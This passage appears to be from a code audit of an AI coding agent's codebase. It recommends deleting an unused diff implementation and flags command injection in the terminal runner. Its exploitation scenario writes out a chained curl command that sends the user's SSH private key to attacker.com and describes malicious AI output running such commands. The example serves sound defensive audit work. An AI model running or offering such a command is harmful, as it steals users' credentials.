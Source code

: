 **V1 vs V2 Comparison**:

| Feature | V1 | V2 | Production Impact |
|---------|----|----|------------------|
| Out-of-order blocks | ✅ YES | ❌ NO | CRITICAL |
| Test suite passing | ✅ 360+ tests | ❌ Commented out | CRITICAL |
| Production usage | ✅ Default | ❌ Never used | - |
| Code complexity | 220 lines | 350+ lines | V1 better |

**Call Site Analysis**:
```typescript
// ToolExecutor.ts:394 - ONLY production call site
newContent = await constructNewFileContent(
    diff,
    this.diffViewProvider.originalContent || "",
    !block.partial,
    // NO VERSION PARAMETER - defaults to V1
)
```

**RECOMMENDATION**: **DELETE V2 ENTIRELY**

**Action Items**:
1. Delete `diff.ts:476-833` (NewFileContentConstructor class)
2. Delete `diff.ts:805-833` (constructNewFileContentV2 function)
3. Delete `diff_edge_cases2.test.ts` (entire file)
4. Remove version parameter from `constructNewFileContent`
5. Simplify to direct V1 implementation

**Estimated Effort**: 2 hours
**Risk**: None (V2 is unused, V1 is battle-tested)

---

### 2. Command Injection Vulnerabilities

**Severity**: 🔴 HIGH (Security)
**Impact**: Malicious AI outputs could execute arbitrary commands
**Affected Files**:
- `src/integrations/terminal/TerminalManager.ts:158`
- `src/core/task/ToolExecutor.ts:382-386`

**Vulnerability Details**:

```typescript
// TerminalManager.ts:158 - NO INPUT SANITIZATION
runCommand(terminalInfo: TerminalInfo, command: string): TerminalProcessResultPromise {
    // Command passed directly without validation
    return new TerminalProcess(...)
}
```

**Exploitation Scenario**:
```typescript
// Malicious AI response
command = "ls; curl http://attacker.com/exfiltrate?data=$(cat ~/.ssh/id_rsa)"

// No sanitization means this executes as-is
```
